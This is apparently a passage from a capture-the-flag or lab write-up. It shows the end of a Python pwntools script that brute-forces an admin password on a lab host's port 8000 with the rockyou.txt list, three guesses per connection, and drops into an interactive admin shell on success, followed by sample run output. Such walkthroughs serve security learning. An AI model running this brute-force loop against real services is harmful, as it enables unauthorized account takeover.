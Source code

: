 ```python
            if b"Password:" in resp:
                continue

            if not resp or resp.strip() == b"":
                conn.close()
                return False

            print(f"Found valid password: {pw}")
            try:
                print("Received:")
                print(resp.decode(errors="replace").strip())
            except Exception:
                pass
            conn.interactive()
            return True

        conn.close()
        return False

    except KeyboardInterrupt:
        try:
            conn.close()
        except:
            pass
        raise
    except Exception as e:
        print(f"Error during batch: {e}")
        try:
            conn.close()
        except:
            pass
        return False

def fuzz_passwords():
    with open(password_file, "r", encoding="latin-1") as f:
        batch_num = 0
        for batch in batches(f, 3):
            batch_num += 1
            if attempt_batch(batch, batch_num):
                return
            time.sleep(0.1)
    print("How did we get here?")

if __name__ == "__main__":
    fuzz_passwords()
```
The script connects, sends `admin`, trys 3 passwords from `rockyou.txt`, and checks the response. If no correct password is found it closes the connection and opens a new one. Then guesses 3 more times. If a correct password is found, it switches to interactive mode and gives me a shell as admin.

Here is what I get:
```shell
python3 admin-login.py  
[+] Opening connection to 10.10.167.123 on port 8000: Done  
[1] trying: 123456  
[1] trying: 12345  
[1] trying: 123456789  
[*] Closed connection to 10.10.167.123 port 8000  
[+] Opening connection to 10.10.167.123 on port 8000: Done  
[2] trying: password  
[2] trying: iloveyou  
[2] trying: princess  
[*] Closed connection to 10.10.167.123 port 8000  
[+] Opening connection to 10.10.167.123 on port 8000: Done  
```